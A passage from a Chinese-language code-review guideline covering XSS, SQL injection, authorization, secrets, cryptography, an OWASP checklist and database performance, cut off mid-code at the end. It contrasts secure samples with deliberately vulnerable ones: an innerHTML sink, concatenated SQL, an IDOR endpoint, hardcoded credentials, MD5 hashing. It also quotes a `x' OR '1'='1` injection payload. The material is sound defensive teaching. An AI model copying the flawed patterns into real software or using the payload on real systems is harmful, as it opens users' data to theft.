| `CR-SEC-002` | 必須 | 外部輸入必須在伺服器端以允許清單驗證型別、長度、格式與範圍（只在前端驗證不算數）；輸出到 HTML、JavaScript、URL、CSV 時必須依情境編碼，不得自行以字串組合 HTML | 🧪 驗證失敗的測試；🤖 ESLint `vue/no-v-html`；🤖 Semgrep；👁 程式碼審查 |

```ts
// ❌ CR-SEC-002：把使用者輸入直接以 innerHTML 輸出，造成 XSS
function renderCancelReason(el: HTMLElement, reason: string): void {
  el.innerHTML = `<p>取消原因：${reason}</p>`;
}

// ✅ CR-SEC-002：以 textContent 輸出純文字，瀏覽器不會把內容當成 HTML
function renderCancelReasonSafely(el: HTMLElement, reason: string): void {
  const p = document.createElement('p');
  p.textContent = `取消原因：${reason}`;
  el.replaceChildren(p);
}

export { renderCancelReason, renderCancelReasonSafely };
```

#### 🔍 11.2 審查與驗證

- **自動檢查：** ESLint `vue/no-v-html`、`no-unsanitized/property`（eslint-plugin-no-unsanitized）；Semgrep 的 XSS 規則。
- **人工審查問題：**
  1. 新的輸入在伺服器端有驗證嗎？還是只有前端驗證？
  2. 有沒有新增 `innerHTML`、`v-html`、`dangerouslySetInnerHTML`、`th:utext`？若有，內容是否經過 DOMPurify 等函式庫清理？
- **AI 常見錯誤：** AI 為了「保留格式」常直接使用 `v-html`／`innerHTML`；也常只在前端加驗證，後端完全信任前端送來的資料。

### 11.3 注入

注入（OWASP Top 10:2025 A05）的根本原因都一樣：**把資料和指令混在一起**。SQL 注入、命令注入、LDAP 注入、運算式注入（SpEL、OGNL）、範本注入的防禦也都一樣：**使用參數化的介面，讓資料永遠只是資料**。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-SEC-003` | 必須 | SQL、命令、LDAP、運算式必須使用參數化介面（`PreparedStatement`、JPA 參數、`ProcessBuilder` 的參數清單）；無法參數化的部分（排序欄位、表格名稱）必須以允許清單對應，不得串接使用者輸入 | 🤖 SpotBugs＋FindSecBugs `SQL_INJECTION_*`；🤖 CodeQL `java/sql-injection`；🧪 以惡意輸入測試 |

```java
// ✅ CR-SEC-003：值以參數綁定；排序欄位以允許清單對應，使用者輸入只用來查表
package com.example.cr.order.persistence;

import java.math.BigDecimal;
import java.util.List;
import java.util.Map;
import org.springframework.jdbc.core.simple.JdbcClient;
import org.springframework.stereotype.Repository;

@Repository
public class OrderSearchDao {

    private static final Map<String, String> SORTABLE_COLUMNS = Map.of(
            "date", "created_at",
            "amount", "amount");

    private final JdbcClient jdbc;

    public OrderSearchDao(JdbcClient jdbc) {
        this.jdbc = jdbc;
    }

    /** 查詢顧客的訂單；sort 只接受 date 或 amount，其他值以建立時間排序；最多回傳 100 筆。 */
    public List<OrderSummary> search(long customerId, String status, String sort, int limit) {
        String column = SORTABLE_COLUMNS.getOrDefault(sort, "created_at");
        String sql = "SELECT id, status, amount FROM orders"
                + " WHERE customer_id = :customerId AND status = :status"
                + " ORDER BY " + column + " DESC LIMIT :limit";
        return jdbc.sql(sql)
                .param("customerId", customerId)
                .param("status", status)
                .param("limit", Math.min(limit, 100))
                .query(OrderSummary.class)
                .list();
    }

    public record OrderSummary(long id, String status, BigDecimal amount) {
    }
}
```

```java
// ❌ CR-SEC-003：使用者輸入直接串接到 SQL（FindSecBugs SQL_INJECTION_SPRING_JDBC）
public List<Map<String, Object>> search(String status, String sort) {
    String sql = "SELECT id, status, amount FROM orders WHERE status = '" + status
            + "' ORDER BY " + sort;
    return jdbcTemplate.queryForList(sql);
}
```

（片段：只截取方法。攻擊者傳入 `status=x' OR '1'='1` 即可取得所有人的訂單。）

#### 🔍 11.3 審查與驗證

- **自動檢查：** SpotBugs＋FindSecBugs（附錄 F.3 以本節的 ❌ 範例確認會觸發 `SQL_INJECTION_SPRING_JDBC`）；CodeQL 的 `java/sql-injection`。
- **人工審查問題：**
  1. 有沒有任何 `+` 或 `String.format` 組合出來的 SQL、命令或運算式？組合的部分是否只來自常數或允許清單？
  2. `@Query` 中有沒有使用 SpEL 或原生查詢串接參數？
  3. `Runtime.exec`、`ProcessBuilder` 的參數是否來自使用者？
- **AI 常見錯誤：** AI 處理「動態排序」、「動態篩選」時幾乎都會直接串接欄位名稱；也常以「已經在前端限制了選項」為由不做伺服器端的允許清單。

### 11.4 身分驗證與授權

存取控制失效是 OWASP Top 10:2025 的第一名（A01）。最常見的形式是**物件層級授權失效**（Broken Object Level Authorization，也常稱 IDOR）：API 以 `/api/orders/42` 取得訂單，卻沒有檢查 42 號訂單是否屬於目前的使用者。這類錯誤掃描工具幾乎找不到，因為工具不知道「這筆訂單屬於誰」。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-SEC-004` | 必須 | 存取特定資源的操作必須檢查資源屬於目前的使用者或租戶，且檢查必須寫在查詢條件中（例如 `findByIdAndCustomerId`），而不是先查出來再比對；他人的資源應回 404，避免洩漏資源是否存在 | 🧪 「他人的資料」測試（CR-SEC-005）；👁 程式碼審查 |
| `CR-SEC-005` | 必須 | 每個新端點都必須有「未登入（401）」、「缺少權限（403）」、「他人的資料（404）」三種授權測試 | 🧪 `@WebMvcTest`＋Spring Security Test |
| `CR-SEC-006` | 必須 | 路由的權限設定必須預設拒絕：列出允許的路徑後以 `denyAll()` 收尾；不得以 `permitAll()` 結尾，也不得為了讓測試通過而放寬權限 | 🧪 未列出的路徑回 401／403 的測試；🤖 Semgrep 自訂規則 |

```java
// ✅ CR-SEC-006：先列出允許的路徑，最後以 denyAll() 收尾；Bearer Token 請求由 Spring Security 自動略過 CSRF 檢查
package com.example.cr.order.config;

import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.http.HttpMethod;
import org.springframework.security.config.Customizer;
import org.springframework.security.config.annotation.web.builders.HttpSecurity;
import org.springframework.security.config.http.SessionCreationPolicy;
import org.springframework.security.web.SecurityFilterChain;

@Configuration
public class SecurityConfig {

    @Bean
    SecurityFilterChain api(HttpSecurity http) throws Exception {
        http
            .authorizeHttpRequests(auth -> auth
                .requestMatchers(HttpMethod.POST, "/api/orders/*/cancel").hasAuthority("SCOPE_orders:write")
                .requestMatchers(HttpMethod.GET, "/api/orders/**").hasAuthority("SCOPE_orders:read")
                .requestMatchers("/actuator/health/**").permitAll()
                .anyRequest().denyAll())
            .sessionManagement(session -> session.sessionCreationPolicy(SessionCreationPolicy.STATELESS))
            .oauth2ResourceServer(rs -> rs.jwt(Customizer.withDefaults()));
        return http.build();
    }
}
```

```java
// ✅ CR-SEC-004：顧客編號只取自已驗證的權杖，不接受請求參數傳入
package com.example.cr.order.web;

import com.example.cr.order.service.OrderCancelService;
import jakarta.validation.Valid;
import org.springframework.http.ResponseEntity;
import org.springframework.security.core.annotation.AuthenticationPrincipal;
import org.springframework.security.oauth2.jwt.Jwt;
import org.springframework.web.bind.annotation.PathVariable;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestBody;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

@RestController
@RequestMapping("/api/orders")
public class OrderController {

    private final OrderCancelService cancelService;

    public OrderController(OrderCancelService cancelService) {
        this.cancelService = cancelService;
    }

    @PostMapping("/{id}/cancel")
    public ResponseEntity<Void> cancel(@PathVariable long id,
                                       @Valid @RequestBody CancelRequest request,
                                       @AuthenticationPrincipal Jwt jwt) {
        long customerId = Long.parseLong(jwt.getSubject());
        cancelService.cancel(id, customerId, request.reason());
        return ResponseEntity.noContent().build();
    }
}
```

```java
// ✅ CR-SEC-005：未登入、缺少權限、他人的資料、驗證失敗四種情境
package com.example.cr.order.web;

import static org.mockito.ArgumentMatchers.anyString;
import static org.mockito.ArgumentMatchers.eq;
import static org.mockito.Mockito.verify;
import static org.mockito.Mockito.verifyNoInteractions;
import static org.mockito.Mockito.when;
import static org.springframework.security.test.web.servlet.request.SecurityMockMvcRequestPostProcessors.csrf;
import static org.springframework.security.test.web.servlet.request.SecurityMockMvcRequestPostProcessors.jwt;
import static org.springframework.test.web.servlet.request.MockMvcRequestBuilders.post;
import static org.springframework.test.web.servlet.result.MockMvcResultMatchers.jsonPath;
import static org.springframework.test.web.servlet.result.MockMvcResultMatchers.status;

import com.example.cr.order.config.SecurityConfig;
import com.example.cr.order.domain.OrderNotFoundException;
import com.example.cr.order.service.OrderCancelService;
import org.junit.jupiter.api.Test;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.boot.webmvc.test.autoconfigure.WebMvcTest;
import org.springframework.context.annotation.Import;
import org.springframework.http.MediaType;
import org.springframework.security.core.authority.SimpleGrantedAuthority;
import org.springframework.security.oauth2.jwt.JwtDecoder;
import org.springframework.test.context.bean.override.mockito.MockitoBean;
import org.springframework.test.web.servlet.MockMvc;

@WebMvcTest(OrderController.class)
@Import({SecurityConfig.class, OrderExceptionHandler.class})
class OrderControllerTest {

    private static final String BODY = "{\"reason\":\"客戶重複下單\"}";

    @Autowired
    private MockMvc mvc;

    @MockitoBean
    private OrderCancelService cancelService;

    @MockitoBean
    private JwtDecoder jwtDecoder;

    @Test
    void anonymousIsUnauthorized() throws Exception {
        mvc.perform(post("/api/orders/42/cancel").with(csrf())
                        .contentType(MediaType.APPLICATION_JSON).content(BODY))
                .andExpect(status().isUnauthorized());
        verifyNoInteractions(cancelService);
    }

    @Test
    void readScopeCannotCancel() throws Exception {
        mvc.perform(post("/api/orders/42/cancel").with(csrf())
                        .with(jwt().jwt(j -> j.subject("1001"))
                                .authorities(new SimpleGrantedAuthority("SCOPE_orders:read")))
                        .contentType(MediaType.APPLICATION_JSON).content(BODY))
                .andExpect(status().isForbidden());
        verifyNoInteractions(cancelService);
    }

    @Test
    void otherCustomersOrderIsNotFound() throws Exception {
        when(cancelService.cancel(eq(42L), eq(2002L), anyString())).thenThrow(new OrderNotFoundException(42L));

        mvc.perform(post("/api/orders/42/cancel").with(csrf())
                        .with(jwt().jwt(j -> j.subject("2002"))
                                .authorities(new SimpleGrantedAuthority("SCOPE_orders:write")))
                        .contentType(MediaType.APPLICATION_JSON).content(BODY))
                .andExpect(status().isNotFound())
                .andExpect(jsonPath("$.code").value("ORDER_NOT_FOUND"));
    }

    @Test
    void ownOrderIsCancelled() throws Exception {
        mvc.perform(post("/api/orders/42/cancel").with(csrf())
                        .with(jwt().jwt(j -> j.subject("1001"))
                                .authorities(new SimpleGrantedAuthority("SCOPE_orders:write")))
                        .contentType(MediaType.APPLICATION_JSON).content(BODY))
                .andExpect(status().isNoContent());
        verify(cancelService).cancel(42L, 1001L, "客戶重複下單");
    }

    @Test
    void blankReasonIsBadRequest() throws Exception {
        mvc.perform(post("/api/orders/42/cancel").with(csrf())
                        .with(jwt().jwt(j -> j.subject("1001"))
                                .authorities(new SimpleGrantedAuthority("SCOPE_orders:write")))
                        .contentType(MediaType.APPLICATION_JSON).content("{\"reason\":\"  \"}"))
                .andExpect(status().isBadRequest());
        verifyNoInteractions(cancelService);
    }
}
```

```java
// ❌ CR-SEC-004：先查出訂單再比對，而且顧客編號來自請求參數，攻擊者可以傳入任何人的編號
@PostMapping("/{id}/cancel")
public ResponseEntity<Void> cancel(@PathVariable long id, @RequestParam long customerId,
                                   @Valid @RequestBody CancelRequest request) {
    Order order = orderRepository.findById(id).orElseThrow();
    if (order.getCustomerId() != customerId) {
        return ResponseEntity.status(403).build();       // 403 也告訴攻擊者「這張訂單存在」
    }
    // ...
    return ResponseEntity.noContent().build();
}
```

（片段：只截取 Controller 方法。）

#### 🔍 11.4 審查與驗證

- **自動檢查：** `OrderControllerTest` 的三種授權測試（CR-SEC-005）在 CI 執行；Semgrep 自訂規則找出以 `anyRequest().permitAll()` 結尾的設定。
- **人工審查問題：**
  1. 使用者身分來自哪裡？是已驗證的權杖，還是請求參數、標頭或請求本文？
  2. 每個以 ID 存取資源的查詢，條件中都有使用者或租戶嗎？
  3. 新端點是否落在某條明確的 `requestMatchers` 規則內？
- **AI 常見錯誤：** AI 產生的 Controller 常以 `@RequestParam userId` 取得使用者身分；遇到測試回 401／403 時，常建議把路徑加入 `permitAll()` 或關閉 CSRF。這些修改都必須由資安擁護者審查。

### 11.5 秘密、敏感資料與日誌

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-SEC-007` | 必須 | 程式碼、設定檔、測試資料與提交歷史中不得出現秘密（密碼、API 金鑰、權杖、私鑰、連線字串中的密碼）；設定檔只引用環境變數或秘密管理服務。秘密一旦被提交，即使之後刪除也必須視為外洩並撤換 | 🤖 Gitleaks；🤖 GitHub secret scanning push protection／GitLab Secret push protection |
| `CR-SEC-008` | 必須 | 日誌、錯誤訊息、例外訊息與 `toString()` 不得包含密碼、權杖、完整的身分證字號、信用卡號或其他個資；記錄使用者相關事件時以內部識別碼代替 | 🧪 日誌輸出測試；👁 程式碼審查 |

```java
// ✅ CR-SEC-008：含敏感資料的 record 覆寫 toString，避免被日誌或例外訊息帶出
package com.example.cr.order.web;

import jakarta.validation.constraints.Email;
import jakarta.validation.constraints.NotBlank;
import jakarta.validation.constraints.Size;

public record RegisterRequest(
        @NotBlank @Email @Size(max = 254) String email,
        @NotBlank @Size(min = 12, max = 128) String password) {

    @Override
    public String toString() {
        return "RegisterRequest[email=" + maskEmail(email) + ", password=***]";
    }

    private static String maskEmail(String value) {
        if (value == null) {
            return "null";
        }
        int at = value.indexOf('@');
        return at <= 1 ? "***" : value.charAt(0) + "***" + value.substring(at);
    }
}
```

```yaml
# ❌ CR-SEC-007：application.yml 中寫死資料庫密碼與 API 金鑰
spring:
  datasource:
    url: jdbc:postgresql://db.internal:5432/orders
    username: order_app
    password: Sup3rS3cret!
payment:
  api-key: sk_live_<真實金鑰-範例已遮蔽>
```

```yaml
# ✅ CR-SEC-007：只引用環境變數，實際值由秘密管理服務注入
spring:
  datasource:
    url: ${ORDER_DB_URL}
    username: ${ORDER_DB_USERNAME}
    password: ${ORDER_DB_PASSWORD}
payment:
  api-key: ${PAYMENT_API_KEY}
```

#### 🔍 11.5 審查與驗證

- **自動檢查：** Gitleaks 在 pre-commit 與 CI 執行；GitHub 的 push protection 與 GitLab 的 Secret push protection 在推送時阻擋。附錄 F.3 以本節的 ❌ 範例實測 Gitleaks 8.30.1：有固定格式的 `sk_live_…` 金鑰被偵測（規則 `stripe-access-token`），但 `password: Sup3rS3cret!` **沒有**被偵測。一般密碼沒有固定格式，掃描工具不保證找得到，因此審查時仍要確認設定檔中的敏感欄位都是 `${...}` 的引用。
- **人工審查問題：**
  1. 新增的設定值中有沒有看起來像秘密的字串？測試資料中的「假」密碼是否真的是假的？
  2. 新增的日誌輸出了哪些物件？那些物件的 `toString()` 會不會帶出敏感欄位？
  3. Java `record` 的預設 `toString()` 會輸出所有欄位，含密碼的 record 是否已覆寫？
- **AI 常見錯誤：** AI 產生的範例設定常含有看似真實的金鑰或 `password: admin`；AI 也常以 `log.info("request: {}", request)` 記錄整個請求物件。v2.0 的範例把 `toString()` 寫在 Service 類別中、引用不存在的欄位，無法編譯，也沒有達到遮蔽的目的。

### 11.6 密碼學

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-SEC-009` | 必須 | 密碼必須以專用的密碼雜湊演算法（Argon2id、bcrypt、PBKDF2）儲存，建議使用 Spring Security 的 `DelegatingPasswordEncoder`；不得使用 MD5、SHA-1、未加鹽的 SHA-256 或可逆加密。安全用途的亂數必須使用 `SecureRandom` | 🤖 FindSecBugs `WEAK_MESSAGE_DIGEST_MD5`、`PREDICTABLE_RANDOM`；🤖 CodeQL；👁 程式碼審查 |

```java
// ✅ CR-SEC-009：使用 DelegatingPasswordEncoder，日後可升級演算法而不影響既有雜湊
package com.example.cr.order.config;

import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.security.crypto.factory.PasswordEncoderFactories;
import org.springframework.security.crypto.password.PasswordEncoder;

@Configuration
public class PasswordConfig {

    @Bean
    PasswordEncoder passwordEncoder() {
        return PasswordEncoderFactories.createDelegatingPasswordEncoder();
    }
}
```

```java
// ❌ CR-SEC-009：以 MD5 雜湊密碼、以 java.util.Random 產生重設權杖
String hash = DigestUtils.md5Hex(password);                            // 可被快速暴力破解
String resetToken = Long.toHexString(new Random().nextLong());          // 可預測
```

（片段：兩行獨立的錯誤。）

#### 🔍 11.6 審查與驗證

- **自動檢查：** FindSecBugs `WEAK_MESSAGE_DIGEST_MD5`、`PREDICTABLE_RANDOM`；CodeQL `java/weak-cryptographic-algorithm`。
- **人工審查問題：**
  1. 有沒有新增 `MessageDigest`、`Cipher`、`Random` 的使用？用途是什麼？
  2. 加密使用的模式是 AES-GCM 嗎？IV 每次都隨機產生嗎？
- **AI 常見錯誤：** AI 常在「產生驗證碼」或「產生檔名」時使用 `Math.random()`／`new Random()`；加密範例常用 `AES/ECB/PKCS5Padding`（`Cipher.getInstance("AES")` 的預設值）。

### 11.7 OWASP Top 10:2025 審查對照

下表把 OWASP Top 10:2025 的每一項轉成審查時可以直接問的問題，並對應到本指引與安全程式碼指引的規則：

| 項目 | 審查時要問的問題 | 本指引規則 | 安全程式碼指引 |
| --- | --- | --- | --- |
| A01 存取控制失效（含 SSRF） | 使用者能存取別人的資料嗎？伺服器會依使用者提供的網址發出請求嗎？ | `CR-SEC-004`–`CR-SEC-006` | 第 4 章、13.3 |
| A02 安全設定錯誤 | 有沒有放寬 CORS、關閉 CSRF、開啟除錯端點、使用預設帳號？ | `CR-CFG-001`、`CR-SEC-006` | 第 17 章 |
| A03 軟體供應鏈失效 | 新的相依套件可信嗎？CI 的權限是否最小？Action 是否固定版本？ | `CR-CFG-004`–`CR-CFG-006` | 第 15 章 |
| A04 密碼學失效 | 演算法、模式、金鑰與亂數來源正確嗎？ | `CR-SEC-009` | 第 5 章 |
| A05 注入 | 有沒有字串組合的 SQL、命令、運算式？ | `CR-SEC-003` | 第 10、11 章 |
| A06 不安全的設計 | 業務流程能被濫用嗎？（負數金額、重複兌換、跳過步驟） | `CR-DES-001`、`CR-COR-001` | 第 2 章 |
| A07 身分驗證失效 | 登入、權杖驗證、工作階段管理是否使用框架的標準做法？ | `CR-SEC-001` | 第 3 章 |
| A08 軟體或資料完整性失效 | 反序列化不可信的資料？更新或設定來源沒有驗證簽章？ | `CR-SEC-002` | 第 13 章 |
| A09 安全記錄與警示失效 | 安全事件有記錄嗎？日誌有沒有敏感資料？ | `CR-SEC-008` | 第 14 章 |
| A10 例外狀況處理不當 | 例外被吞掉了嗎？失敗時是拒絕還是放行（fail closed）？ | `CR-COR-005`–`CR-COR-007` | 第 14 章 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-SEC-010` | 應該 | 審查新的 API 或功能時，審查者應以本節的對照表逐項自問；任一項無法確定時，應請資安擁護者協助 | 👁 審查紀錄 |

```markdown
<!-- ✅ CR-SEC-010：審查新功能時，依對照表留下的紀錄（只列出有發現的項目） -->
**question (blocking):** A06 不安全的設計：退款金額由前端傳入（`refundAmount`），
後端只檢查是否大於 0，沒有檢查是否超過原訂單金額。攻擊者可以退款超過付款的金額嗎？

**issue (blocking):** A10 例外狀況處理不當：`FraudCheckClient` 逾時時回傳 `true`（視為通過），
應改為拒絕（fail closed）或轉人工審核。
```

#### 🔍 11.7 審查與驗證

- **自動檢查：** SAST、SCA、秘密掃描涵蓋 A02、A03、A04、A05 的已知模式；A01、A06 主要依賴測試與人工審查。
- **人工審查問題：** 依上表逐項自問；特別注意 A01（授權）與 A06（業務邏輯），它們是工具最難找到的類別。
- **AI 常見錯誤：** AI 審查工具會產生看起來完整的「OWASP 檢查報告」，但常只是把十個項目逐一寫上「未發現問題」。報告中沒有具體指出檢查了哪段程式碼的項目，等於沒有檢查。

## 12. 審查重點：效能與資源

效能問題在審查時的特點是：**在開發環境看不出來**。10 筆測試資料時，N+1 查詢只多花幾毫秒；正式環境 10 萬筆時，同一段程式碼可能讓 API 逾時。審查者要做的不是精確估算效能，而是辨認出「資料量變大時會出問題」的寫法。

### 12.1 資料庫存取：N+1 與查詢次數

N+1 查詢是 ORM 最常見的效能問題：先以 1 次查詢取得 N 筆資料，再對每一筆資料各執行 1 次查詢取得關聯資料。JPA 的延遲載入（lazy loading）讓這個問題在程式碼中完全看不出來：`line.getOrder().getStatus()` 看起來只是取一個欄位，背後卻可能是一次資料庫查詢。

最可靠的防護是**把查詢次數寫成測試**：以 Hibernate 的統計功能計算實際執行的 SQL 數量，查詢次數改變時測試失敗。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-PRF-001` | 必須 | 不得在迴圈中執行資料庫查詢或遠端呼叫；需要關聯資料時應以 `JOIN FETCH`、`@EntityGraph` 或批次查詢（`findAllById`、`IN` 條件）一次取得。熱門路徑的查詢次數應以測試鎖定 | 🧪 Hibernate 統計的查詢次數測試；👁 程式碼審查 |

```java
package com.example.cr.order.domain;

import jakarta.persistence.Column;
import jakarta.persistence.Entity;
import jakarta.persistence.FetchType;
import jakarta.persistence.GeneratedValue;
import jakarta.persistence.GenerationType;
import jakarta.persistence.Id;
import jakarta.persistence.JoinColumn;
import jakarta.persistence.ManyToOne;
import jakarta.persistence.Table;

@Entity
@Table(name = "order_lines")
public class OrderLine {

    @Id
    @GeneratedValue(strategy = GenerationType.IDENTITY)
    private Long id;

    @ManyToOne(fetch = FetchType.LAZY, optional = false)
    @JoinColumn(name = "order_id")
    private Order order;

    @Column(nullable = false, length = 40)
    private String sku;

    @Column(nullable = false)
    private int quantity;

    protected OrderLine() {
        // JPA
    }

    /** 建立訂單明細；數量必須大於 0。 */
    public OrderLine(Order order, String sku, int quantity) {
        if (quantity <= 0) {
            throw new IllegalArgumentException("quantity must be positive");
        }
        this.order = order;
        this.sku = sku;
        this.quantity = quantity;
    }

    public Order getOrder() {
        return order;
    }

    public String getSku() {
        return sku;
    }

    public int getQuantity() {
        return quantity;
    }
}
```

```java
// ✅ CR-PRF-001：以 JOIN FETCH 一次取得明細與訂單；衍生查詢版本保留作為對照
package com.example.cr.order.persistence;

import com.example.cr.order.domain.OrderLine;
import java.util.List;
import org.springframework.data.jpa.repository.JpaRepository;
import org.springframework.data.jpa.repository.Query;

public interface OrderLineRepository extends JpaRepository<OrderLine, Long> {

    @Query("select l from OrderLine l join fetch l.order o where o.customerId = :customerId")
    List<OrderLine> findWithOrderByCustomerId(long customerId);

    /** 衍生查詢：只取明細，存取 getOrder() 的屬性時才逐筆載入訂單（會造成 N+1）。 */
    List<OrderLine> findByOrderCustomerId(long customerId);
}
```

```java
// ✅ CR-PRF-001：以 Hibernate 統計鎖定查詢次數；有人把查詢改回衍生查詢時，這個測試會失敗
package com.example.cr.order.persistence;

import static org.assertj.core.api.Assertions.assertThat;

import com.example.cr.order.domain.Order;
import com.example.cr.order.domain.OrderLine;
import jakarta.persistence.EntityManager;
import jakarta.persistence.EntityManagerFactory;
import java.math.BigDecimal;
import java.util.List;
import org.hibernate.SessionFactory;
import org.hibernate.stat.Statistics;
import org.junit.jupiter.api.BeforeEach;
import org.junit.jupiter.api.Test;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.boot.data.jpa.test.autoconfigure.DataJpaTest;

@DataJpaTest(properties = "spring.jpa.properties.hibernate.generate_statistics=true")
class OrderLineQueryCountTest {

    @Autowired
    private OrderLineRepository lines;

    @Autowired
    private EntityManager em;

    @Autowired
    private EntityManagerFactory emf;

    private Statistics stats;

    @BeforeEach
    void setUp() {
        for (int i = 0; i < 3; i++) {
            Order order = new Order(1001L, new BigDecimal("100.00"));
            em.persist(order);
            em.persist(new OrderLine(order, "SKU-" + i + "-A", 1));
            em.persist(new OrderLine(order, "SKU-" + i + "-B", 2));
        }
        em.flush();
        em.clear();
        stats = emf.unwrap(SessionFactory.class).getStatistics();
        stats.clear();
    }

    @Test
    void joinFetchUsesOneQuery() {
        List<OrderLine> result = lines.findWithOrderByCustomerId(1001L);
        result.forEach(l -> l.getOrder().getStatus());

        assertThat(result).hasSize(6);
        assertThat(stats.getPrepareStatementCount()).isEqualTo(1);
    }

    @Test
    void derivedQueryCausesNPlusOne() {
        List<OrderLine> result = lines.findByOrderCustomerId(1001L);
        result.forEach(l -> l.getOrder().getStatus());

        assertThat(result).hasSize(6);
        assertThat(stats.getPrepareStatementCount()).isEqualTo(1 + 3);   // 1 次明細＋每張訂單 1 次
    }
}
```

```java
// ❌ CR-PRF-001：在迴圈中查詢（v2.0 的範例），100 張訂單會執行 101 次查詢
public List<OrderDto> getAllOrdersWithItems() {
    List<Order> orders = orderRepository.findAll();               // 同時也是 CR-PRF-002：沒有上限
    return orders.stream()
            .map(order -> new OrderDto(order, orderItemRepository.findByOrderId(order.getId())))
            .toList();
}
```

（片段：只截取方法。）

#### 🔍 12.1 審查與驗證

- **自動檢查：** `OrderLineQueryCountTest` 這類查詢次數測試；開發環境可開啟 `spring.jpa.properties.hibernate.generate_statistics` 或使用 datasource-proxy 記錄每個請求的 SQL 數量。
- **人工審查問題：**
  1. 迴圈或 `stream().map()` 中有沒有呼叫 Repository、遠端 API，或存取延遲載入的關聯？
  2. 回傳給前端的 DTO 會觸發哪些關聯的載入？（Jackson 序列化實體時也會觸發延遲載入）
  3. `JOIN FETCH` 集合關聯時有沒有同時分頁？（Hibernate 會在記憶體中分頁並發出 `HHH90003004` 警告）
- **AI 常見錯誤：** AI 寫的 Service 經常在 `map()` 中呼叫另一個 Repository；被要求「修正 N+1」時，常把關聯改為 `FetchType.EAGER`，這會讓所有查詢都載入關聯，問題更嚴重。

### 12.2 無上限的查詢與分頁

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-PRF-002` | 必須 | 回傳集合的 API 與查詢必須有上限：使用分頁並設定最大頁面大小；不得在線上交易中呼叫無條件的 `findAll()` 或載入整張資料表 | 🧪 以大於上限的 `size` 呼叫 API 的測試；👁 程式碼審查 |

```yaml
# ✅ CR-PRF-002：Spring Data Web 的分頁參數設定最大頁面大小，size=10000 也只會回傳 100 筆
spring:
  data:
    web:
      pageable:
        default-page-size: 20
        max-page-size: 100
```

```java
// ❌ CR-PRF-002：匯出功能載入所有訂單到記憶體
@GetMapping("/api/orders/export")
public List<OrderDto> exportAll() {
    return orderRepository.findAll().stream().map(OrderDto::from).toList();
}
```

（片段：只截取方法。大量匯出應改為非同步工作，以 `Stream` 或分批查詢產生檔案。）

#### 🔍 12.2 審查與驗證

- **自動檢查：** API 測試以 `size=10000` 呼叫，確認回傳筆數不超過上限。
- **人工審查問題：**
  1. 這個查詢在資料量成長 100 倍時會怎樣？
  2. 使用者能否透過參數要求任意多的資料？
- **AI 常見錯誤：** AI 產生的「列表 API」通常直接回傳 `findAll()`；加入分頁時常忘記設定最大頁面大小。

### 12.3 快取

快取能大幅改善效能，但也帶來新的錯誤類型：資料過期、記憶體無限成長、快取了錯誤的結果。審查快取時要問：**資料改變時快取怎麼更新？快取最多會有多大？**

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-PRF-003` | 必須 | 新增的快取必須定義失效方式（更新時清除、TTL）與容量上限；不得快取使用者專屬的資料於共用鍵下；不應快取 `null` 或錯誤結果，除非是刻意的負向快取並有較短的 TTL | 🧪 更新後讀取到新值的測試；👁 程式碼審查 |

```java
// ✅ CR-PRF-003：不快取 null；更新時清除對應的鍵（片段：Service 的兩個方法）
@Cacheable(cacheNames = "system-config", key = "#key", unless = "#result == null")
public String getConfig(String key) {
    return configRepository.findByKey(key).map(Config::getValue).orElse(null);
}

@CacheEvict(cacheNames = "system-config", key = "#key")
@Transactional
public void updateConfig(String key, String value) {
    configRepository.updateByKey(key, value);
}
```

（片段：只截取方法。容量與 TTL 在快取實作中設定，例如 Caffeine 的 `spring.cache.caffeine.spec=maximumSize=1000,expireAfterWrite=10m`。）

```java
// ❌ CR-PRF-003：以訂單編號為鍵快取，但結果依使用者而不同，A 使用者可能讀到 B 使用者的快取結果
@Cacheable(cacheNames = "order-detail", key = "#orderId")
public OrderDetail findDetail(long orderId, long customerId) {
    return orderRepository.findByIdAndCustomerId(orderId, customerId)
            .map(OrderDetail::from)
            .orElseThrow(() -> new OrderNotFoundException(orderId));
}
```

（片段：只截取方法。快取鍵必須包含所有影響結果的參數，例如 `key = "#customerId + ':' + #orderId"`。）

#### 🔍 12.3 審查與驗證

- **自動檢查：** 測試「更新後立即讀取得到新值」；快取命中率與大小以 Micrometer 指標監控（`cache.gets`、`cache.size`）。
- **人工審查問題：**
  1. 快取鍵包含所有影響結果的參數嗎？包含使用者或租戶嗎？
  2. 資料更新時，有哪些快取需要清除？多個執行個體時，本機快取如何同步？
- **AI 常見錯誤：** AI 加快取時常只加 `@Cacheable` 而沒有對應的 `@CacheEvict`；使用 Spring 預設的 `ConcurrentMapCacheManager`，沒有容量上限也沒有 TTL。v2.0 的範例在設定不存在時回傳 `null` 並將其快取，之後新增的設定會一直讀不到。

### 12.4 外部呼叫：逾時與重試

沒有逾時的外部呼叫是系統穩定性的最大威脅：一個變慢的下游服務會佔住所有執行緒，讓整個系統停止回應。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-PRF-004` | 必須 | 所有外部呼叫（HTTP、資料庫、訊息佇列）都必須設定連線逾時與讀取逾時；重試必須有次數上限、退避間隔，且只用於冪等操作 | 🧪 以 WireMock 模擬延遲的測試；👁 程式碼審查 |

```java
// ✅ CR-PRF-004：RestClient 設定連線與讀取逾時
package com.example.cr.order.config;

import java.net.http.HttpClient;
import java.time.Duration;
import org.springframework.beans.factory.annotation.Value;
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.http.client.JdkClientHttpRequestFactory;
